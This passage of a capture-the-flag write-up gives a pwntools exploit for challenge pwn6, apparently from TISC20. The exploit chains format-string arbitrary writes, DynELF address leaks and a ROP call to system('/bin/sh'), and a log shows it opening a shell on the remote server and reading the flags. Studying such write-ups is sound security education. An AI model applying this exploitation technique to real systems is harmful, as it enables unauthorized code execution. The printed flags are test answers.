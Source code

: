 ```python

def arb_write(ptr, data):
        while data:
                cursor2(ptr)
                f("%{}c%40$n".format(data & 0xffff))
                data >>= 16
                ptr+=2

# PIE reference
pie_leak = int(f("%66$p"), 16)

# Do stuff
d = DynELF(arb_read, pie_leak)
pie_base = d.libbase
log.info("pie_base: {:#x}".format(pie_base))

# Libc leak
libc_base = u64(arb_read(pie_base+0x3fb8).ljust(8, '\x00'))-0x064e10
log.info("libc_base: {:#x}".format(libc_base))
system = libc_base + 0x055410
log.info("system: {:#x}".format(system))
data = 0

# Win
arb_write(stack_leak+(int(9)-1)*8, pie_base+0x133c)
arb_write(stack_leak+(int(14)-1)*8, pie_base+0x1343) # pop rdi
arb_write(stack_leak+(int(15)-1)*8, pie_base+0x40a0+len("exit\x00")) # binsh
arb_write(stack_leak+(int(16)-1)*8, system) # system
log.info("Trying to win")
sleep(0.1)
r.sendline("exit\x00/bin/sh\x00")

r.interactive()
```

With this shell, I first got the 6B flag and later got the 6A flag after I realised I submitted the wrong flag to 6A.
```
❯ python xpl.py remote
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 42000: Done
[*] stack_leak: 0x7ffebd971e48
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[+] Finding base address: 0x560b07998000
[*] pie_base: 0x560b07998000
[*] libc_base: 0x7fba44955000
[*] system: 0x7fba449aa410
[*] Trying to win
[*] Switching to interactive mode
$ cd ~
$ ls
flag.txt
pwn6
$ cat flag.txt
TISC20{c4n_y0u_s33_anything?_042u843hfj34d92394}
$ strings pwn6 | grep TISC
TISC20{Ch3ckp01nt_1_349ufh98hd98iwqfkoieh938}
```
And with this the challenge was complete!
